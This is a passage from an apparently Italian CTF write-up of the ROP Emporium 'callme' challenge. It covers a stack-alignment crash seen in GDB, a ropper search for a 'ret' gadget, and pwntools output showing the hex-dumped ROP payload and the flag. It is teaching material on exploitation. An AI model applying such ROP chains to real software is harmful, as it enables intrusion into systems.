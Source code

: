 ```python
io.close()

```

Con una prima esecuzione, si e' sollevato un errore che e' stato approfondito con l'utilizzo del debugger **GDB**.

```bash

 ► 0x771e376a44c0 <_int_malloc+2832>    movaps xmmword ptr [rsp + 0x10], xmm1     <[0x7ffc20fdfb58] not aligned to 16 bytes>

```

L'errore e' causato dal **non allineamento dello stack**, e puo' essere risolto inserendo un *gadget* *ret* nel nostro payload.

```bash
$ ropper --file=callme --search ret
0x00000000004006be: ret; 
```

[Leggi qui: https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/stack-alignment)

Risultato dell'esecuzione:

```bash
$ python3 exploit.py 
[+] Starting local process './callme': pid 5888
[DEBUG] Sent 0xc1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  be 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  3c 09 40 00  00 00 00 00  ef be ad de  ef be ad de  │<·@·│····│····│····│
    00000040  be ba fe ca  be ba fe ca  0d f0 0d d0  0d f0 0d d0  │····│····│····│····│
    00000050  20 07 40 00  00 00 00 00  3c 09 40 00  00 00 00 00  │ ·@·│····│<·@·│····│
    00000060  ef be ad de  ef be ad de  be ba fe ca  be ba fe ca  │····│····│····│····│
    00000070  0d f0 0d d0  0d f0 0d d0  40 07 40 00  00 00 00 00  │····│····│@·@·│····│
    00000080  3c 09 40 00  00 00 00 00  ef be ad de  ef be ad de  │<·@·│····│····│····│
    00000090  be ba fe ca  be ba fe ca  0d f0 0d d0  0d f0 0d d0  │····│····│····│····│
    000000a0  f0 06 40 00  00 00 00 00  a3 09 40 00  00 00 00 00  │··@·│····│··@·│····│
    000000b0  00 00 00 00  00 00 00 00  37 09 40 00  00 00 00 00  │····│····│7·@·│····│
    000000c0  0a                                                  │·│
    000000c1
[+] Receiving all data: Done (172B)
[DEBUG] Received 0x6d bytes:
    b'callme by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Hope you read the instructions...\n'
    b'\n'
    b'> Thank you!\n'
    b'callme_one() called correctly\n'
[*] Process './callme' stopped with exit code 0 (pid 5888)
[DEBUG] Received 0x3f bytes:
    b'callme_two() called correctly\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'

```
GG!

---
